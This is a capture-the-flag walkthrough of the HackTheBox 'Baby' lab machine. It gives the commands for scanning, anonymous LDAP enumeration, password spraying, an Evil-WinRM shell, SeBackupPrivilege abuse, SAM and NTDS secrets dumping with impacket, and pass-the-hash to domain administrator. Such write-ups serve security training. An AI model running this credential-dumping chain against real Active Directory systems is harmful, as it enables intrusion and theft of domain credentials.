# Baby HacktTheBox Walkthrough

This document provides a structured, professional walkthrough of the exploitation process, 
including enumeration, credential discovery, privilege escalation, and domain compromise. 
All commands are provided in code blocks, and screenshots are preserved for clarity.

---

## 1. Initial Enumeration

We begin with a full port scan followed by targeted service enumeration and vulnerability detection:

```bash
nmap -p- -Pn 10.129.224.8 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.224.8 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.224.8 -v --script vuln -oN nmap_vuln.txt
```



---

## 2. LDAP Enumeration

Anonymous LDAP queries revealed Active Directory accounts:

```bash
netexec ldap 10.129.224.8 -u '' -p '' --query "(sAMAccountName=*)" ""
```



We successfully discovered credentials:

- **Username:** `Teresa.Bell`
- **Password:** `BabyStart123!`



---

## 3. Password Spraying & Account Access

After conducting a password spraying attack, we identified another account with forced password reset status:



We updated the password using SMB tools:

```bash
smbpasswd -r 10.129.224.8 -U "Caroline.Robinson"
```



With valid credentials, we obtained a shell via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.224.8 -u "Caroline.Robinson" -p "Pass123!"
```



---

## 4. Privilege Escalation

Upon privilege inspection, we discovered the `SeBackupPrivilege` assigned to our account:



This privilege allowed us to exploit backup-related operations to extract sensitive files.



---

## 5. Secrets Dumping

We dumped the **SAM** and **SYSTEM** hives for offline extraction:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```



Initial attempts at **Pass-the-Hash** with the extracted Administrator hash failed:

```bash
evil-winrm -i 10.129.224.8 -u Administrator -H 8d992faed38128ae85e95fa35868bb43
```

❌ **Unsuccessful authentication**

---

## 6. NTDS.dit Attack

Direct extraction of the `ntds.dit` file was blocked as it was in use.  
We leveraged an automated backup privilege abuse script:

[BackupPrivilege-Script](https://github.com/SawyersPresent/BackupPrivilege-Script/)



We then successfully dumped the full NTDS database:

```bash
impacket-secretsdump LOCAL -ntds NTDS -system SYSTEM
```



---

## 7. Domain Administrator Access

Using one of the extracted hashes, we performed **Pass-the-Hash** authentication 
and successfully obtained **Administrator-level access**:



At this stage, full domain compromise was achieved.  
The **root flag** was located on the Administrator’s desktop.

---

## 8. Conclusion

This assessment demonstrates a full attack chain from external enumeration 
to complete **domain compromise** by abusing backup privileges and dumping NTDS hashes.  

**Key takeaways:**

- Unpatched systems exposed via LDAP and SMB are critical entry points.  
- Weak or default credentials (e.g., `BabyStart123!`) accelerate compromise.  
- Backup privileges provide direct paths to Domain Controller secrets.  
- Preventing exploitation requires hardening Active Directory, monitoring privileged rights, and enforcing strong password policies.

---
